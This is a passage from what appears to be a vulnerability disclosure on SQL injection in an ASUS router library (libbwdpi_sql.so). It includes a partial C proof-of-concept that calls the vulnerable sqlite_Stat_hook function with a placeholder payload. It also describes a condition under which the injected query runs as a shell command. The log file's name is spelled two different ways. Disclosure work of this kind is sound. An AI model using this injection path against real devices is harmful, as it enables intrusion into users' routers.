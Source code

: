 `A possible local call POC is as follows`
```c
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>

typedef void (*sqlite_Stat_hook_t)(int type, char *client, char *mode, char *dura, char *date, int *retval, void *wp);

int main() {
    void *handle = dlopen("/usr/lib/libbwdpi_sql.so", RTLD_LAZY);
    ...[Omitted]...

    sqlite_Stat_hook_t sqlite_Stat_hook = (sqlite_Stat_hook_t)dlsym(handle, "sqlite_Stat_hook");
    if (!sqlite_Stat_hook) {
        fprintf(stderr, "Error loading function: %s\n", dlerror());
        dlclose(handle);
        return 1;
    }

    sqlite_Stat_hook(0, "[SQLi Payload]", "hour", "24", "1000", &retval, NULL);
    dlclose(handle);

    return 0;
}
```

Next, I discovered an even more bizarre vulnerability, which even has the opportunity to exploit RCE after SQL injection.

if `/tmp/BWSQL_LOG` exists, the `sql_query` will be formatted into command and executed directly, causing RCE (the following Figure 7)

![asus](/image/asus_sql/7.png)  
`Figure 7`  

But it is difficult to make `/tmp/BWQL_LOG` exist, so no further discussion will be made here

### [](#header-3)Bin re and Lib re and Simulation:

Example firmware download: [GT-AC5300_3.0.0.4_386_51569-g9ee6a79_ubi.w](/image/asus_sql/GT-AC5300_3.0.0.4_386_51569-g9ee6a79_ubi.w)
